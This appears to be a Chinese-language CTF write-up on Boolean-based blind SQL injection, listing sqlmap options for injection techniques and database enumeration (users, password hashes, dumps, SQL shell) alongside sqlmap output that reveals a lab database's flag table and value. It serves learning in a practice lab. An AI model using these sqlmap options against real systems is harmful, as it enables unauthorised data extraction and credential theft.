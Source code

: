 ```yaml
---
title: 布尔盲注
date: 2024-11-15T20:12:06Z
lastmod: 2024-11-15T20:43:56Z
---
```


# 布尔盲注

```shell
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli

```

#### **技术** [#](https://wiki.wgpsec.org/knowledge/tools/sqlmap.html#%E6%8A%80%E6%9C%AF)

以下选项用于调整特定 SQL 注入技术的测试方法

```bash
--technique=TECH	#使用的 SQL 注入技术（默认为“BEUSTQ”)
B: Boolean-based blind SQL injection（布尔型盲注）
E: Error-based SQL injection（报错型注入）
U: UNION query SQL injection（联合查询注入）
S: Stacked queries SQL injection（堆查询注入）
T: Time-based blind SQL injection（时间型盲注）
Q: inline Query injection（内联查询注入）

--time-sec=TIMESEC  #设置延时注入的时间（默认为 5）
--second-order=S..  #设置二阶响应的结果显示页面的 URL（该选项用于二阶 SQL 注入）
```

#### **枚举** [#](https://wiki.wgpsec.org/knowledge/tools/sqlmap.html#%E6%9E%9A%E4%B8%BE)

以下选项用于获取数据库的信息，结构和数据表中的数据。

```bash
-a, --all          #获取所有信息、数据
-b, --banner        #获取 DBMS banner,返回数据库的版本号
--current-user			#获取 DBMS 当前用户
--current-db			#获取 DBMS 当前数据库
--hostname				#获取 DBMS 服务器的主机名
--is-dba				#探测 DBMS 当前用户是否为 DBA（数据库管理员）
--users					#枚举出 DBMS 所有用户
--passwords				#枚举出 DBMS 所有用户的密码哈希
--privileges			#枚举出 DBMS 所有用户特权级
--roles					#枚举出 DBMS 所有用户角色

--dbs					#枚举出 DBMS 所有数据库
--tables				#枚举出 DBMS 数据库中的所有表
--columns				#枚举出 DBMS 表中的所有列
--schema				#枚举出 DBMS 所有模式
--count					#获取数据表数目
--dump					#导出 DBMS 数据库表项
--stop 10				#只取前10行数据
  
-D DB					#指定要枚举的 DBMS 数据库
-T TBL					#指定要枚举的 DBMS 数据表
-C COL					#指定要枚举的 DBMS 数据列
  
--sql-query=QUERY		#指定要执行的 SQL 语句
--sql-shell				#调出交互式 SQL shell
```

```shell
Database: sqli
[2 tables]
+------+
| flag |
| news |
+------+
```

```shell
Database: sqli
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(110) |
+--------+--------------+

```

```shell
Database: sqli
Table: flag
[1 entry]
+-----------------+
| flag            |
+-----------------+
| ctfhub{9766ed9X |
+-----------------+
```

‍
